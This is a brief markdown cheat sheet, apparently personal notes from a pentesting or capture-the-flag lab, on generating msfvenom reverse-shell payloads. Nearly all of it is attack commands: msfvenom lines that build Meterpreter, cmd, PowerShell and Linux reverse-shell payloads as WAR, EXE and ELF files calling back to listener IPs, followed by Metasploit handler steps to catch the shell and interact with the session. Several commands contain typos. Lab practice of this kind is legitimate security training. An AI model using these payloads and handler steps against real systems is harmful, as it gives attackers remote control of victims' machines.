 # msfvenom

## Overview

msfvenom is a payload generator.
You can create reverse shells in many different formars


## Usage

### Getting a war payload

Create the payload

	msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=10.10.14.46 LPORT=9001 -f war -o payload.war

Now start metasploit

	msfconsole

Use the handler that is gonna handle the reverse connection from the payload

	use exploit/multi/hander

Set the payload that we created with msfvenom

	set payload windows/x64/meterpreterreverse_tcp

Set the interfacte that the handler is gonna listen on waiting for the reverse connection

	set LHOST tun0

Set the port specified in the payload in msfvenom

	set LPORT 9001

Run the handler

	exploit -j

Now execute the war payload (by accessing the jsp inside) and we should have a connection.
When we have a session do

	sessions -i 1

To interact with it

### List Payloads

```shell
msfvenom -l payloads
```


### Getting a cmd .exe payload

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<mylocalhostip> LPORT=<myserverport> -f exe -o <name_of_the_exe>
```

### Getting a powershell .exe payload

```shell
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=<mylocalhostip> LPORT=<myserverport> -f exe -o <name_of_the_exe>
```

### Create a elf payload

```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```